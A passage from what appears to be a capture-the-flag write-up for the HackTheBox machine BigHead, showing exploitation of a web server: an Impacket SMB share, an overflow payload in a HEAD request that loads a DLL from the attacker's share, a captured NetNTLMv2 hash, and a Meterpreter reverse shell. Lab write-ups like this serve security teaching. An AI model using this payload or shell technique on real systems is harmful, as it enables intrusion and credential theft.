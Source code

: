 Because the server uses SMB to talk back to us, we'll start an SMB share with Impacket:

```
# /usr/share/doc/python-impacket/examples/smbserver.py share .
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Firing up the exploit...

```
# python smbexploit.py 
191
HEAD /505C042850bb581b5062ffd3909090909090909090909090909090909090909090909090f21250625c5c31302e31302e31342e32335c73686172655c782e646c6c HTTP/1.1
Host: dev.bighead.htb
Connection: close
...
[*] Incoming connection (10.10.10.112,60888)
[*] AUTHENTICATE_MESSAGE (PIEDPIPER\Nelson,PIEDPIPER)
[*] User Nelson\PIEDPIPER authenticated successfully
[*] Nelson::PIEDPIPER:4141414141414141:e8e4ea60eb43ad439299c50c245654ca:010100000000000000f1a060fc85d4017e4c61f17754814500000000010010004f00650051004a00490073005600450002001000730047006b007400540068006f005600030010004f00650051004a00490073005600450004001000730047006b007400540068006f0056000700080000f1a060fc85d40106000400020000000800300030000000000000000000000000200000282e2960465001d017bb89eae52e3c9002f1edefda8c004fd0186e57fb9bd3eb000000000000000000000000
[*] Disconnecting Share(1:IPC$)
...
msf exploit(multi/handler) > [*] Sending stage (179779 bytes) to 10.10.10.112
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.112:60889) at 2018-11-26 21:53:32 -0500

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: PIEDPIPER\Nelson
```

### Windows enumeration

Now that I finally have a shell, I tried to get `user.txt` but this version is just a troll:

```
meterpreter > cat /users/nelson/desktop/user.txt

    .-''-.  .-------.      .---.    .-./`)     _______   .---.  .---.         
  .'_ _   \ |  _ _   \     | ,_|    \ .-.')   /   __  \  |   |  |_ _|         
 / ( ` )   '| ( ' )  |   ,-./  )    / `-' \  | ,_/  \__) |   |  ( ' )         
. (_ o _)  ||(_ o _) /   \  '_ '`)   `-'`"`,-./  )       |   '-(_{;}_)        
|  (_,_)___|| (_,_).' __  > (_)  )   .---. \  '_ '`)     |      (_,_)         
'  \   .---.|  |\ \  |  |(  .  .-'   |   |  > (_)  )  __ | _ _--.   |         
 \  `-'    /|  | \ `'   / `-'`-'|___ |   | (  .  .-'_/  )|( ' ) |   |         
  \       / |  |  \    /   |        \|   |  `-'`-'     / (_{;}_)|   |         
   `'-..-'  ''-'   `'-'    `--------`'---'    `._____.'  '(_,_) '---'         
          .---.       ,-----.    ,---.  ,---.   .-''-.     .-'''-.            
          | ,_|     .'  .-,  '.  |   /  |   | .'_ _   \   / _     \           
        ,-./  )    / ,-.|  \ _ \ |  |   |  .'/ ( ` )   ' (`' )/`--'           
        \  '_ '`) ;  \  '_ /  | :|  | _ |  |. (_ o _)  |(_ o _).              
         > (_)  ) |  _`,/ \ _/  ||  _( )_  ||  (_,_)___| (_,_). '.            
        (  .  .-' : (  '\_/ \   ;\ (_ o._) /'  \   .---..---.  \  :           
```